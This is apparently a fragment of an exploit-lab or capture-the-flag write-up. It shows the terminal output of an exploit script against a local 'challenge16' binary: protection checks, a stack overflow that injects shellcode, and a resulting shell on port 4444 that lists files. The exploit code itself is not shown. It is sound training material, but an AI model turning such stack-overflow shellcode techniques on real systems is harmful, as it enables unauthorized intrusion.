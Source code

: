 ## Result

```
root@hlUbuntu64:~/challenges/challenge16# python exp-challenge16.py
[*] '/root/challenges/challenge16/challenge16'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
[+] Opening connection to localhost on port 5001: Done
Shellcode len: 131
Stack addr: 0x7fffffffe000
Shellcode:  0x7fffffffe1e0
Press:
  0   To quit
  1   To stack overflow
>
How many bytes do you want to read?

>
Ok, i'll read 232 bytes
Input string:
>
[+] Opening connection to localhost on port 4444: Done
[*] Switching to interactive mode
$ ls
Makefile
a.out
challenge16
challenge16.c
exp-challenge16.py
mprotect
mprotect-test.c
peda-session-challenge16.txt
peda-session-dash.txt
```
